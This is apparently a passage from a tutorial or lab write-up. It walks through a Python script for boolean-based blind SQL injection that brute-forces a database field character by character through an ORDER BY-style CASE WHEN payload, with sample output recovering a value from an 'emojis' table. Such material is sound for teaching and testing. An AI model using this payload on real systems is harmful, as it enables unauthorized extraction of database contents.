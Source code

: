 We first need to import the `string` library and create a list of all possible characters for our bruteforcing alphabet. We'll need all ASCII letters, all digits, and several special characters, which we will manually specify:

```python
bruteforce_alphabet = string.ascii_letters + string.digits + ", _@{}-/()!$%=^[]:;"
```

Now we need to write a loop that will try every bruteforce alphabet character against every string character until it has the whole string:

```python
# Making a flag to end the loop once we hit the last item in the dictionary
finished = False
# Starting the bruteforce from the first character
character_position = 1
# Starting with a blank string and then appending characters to it as we bruteforce
field_value = ''

while not finished:
    for character in bruteforce_alphabet:
        # Crafting the payload and plugging our counter into the third SUBSTR argument
        sql_payload = '(CASE WHEN (SELECT SUBSTR(' + sql_field + ',1,' + str(character_position) + ') FROM ' + sql_table + sql_where + ')=\'' + field_value + character + '\' THEN id ELSE count END);--'
        # Making the request
        request = send_order_query(sql_payload)
		
        # Checking if the boolean response is true
        if blind_boolean(request):
            field_value += character
            character_position += 1
            print('Hit: ' + field_value)
            break
		
        # Checking if we are at the last item in the bruteforce alphabet
        if character == bruteforce_alphabet[-1]:
            finished = True
```

We can run the function against the `name` field of the emoji with `id` of 1 and it successfully bruteforces its value:

```python
print(blind_bruteforce('name','emojis','id=1'))
# ---------------------------------------------
[*] Starting property bruteforce on name
Hit: a
Hit: al
Hit: ali
Hit: alie
Hit: alien
[!] Found field value: alien
```
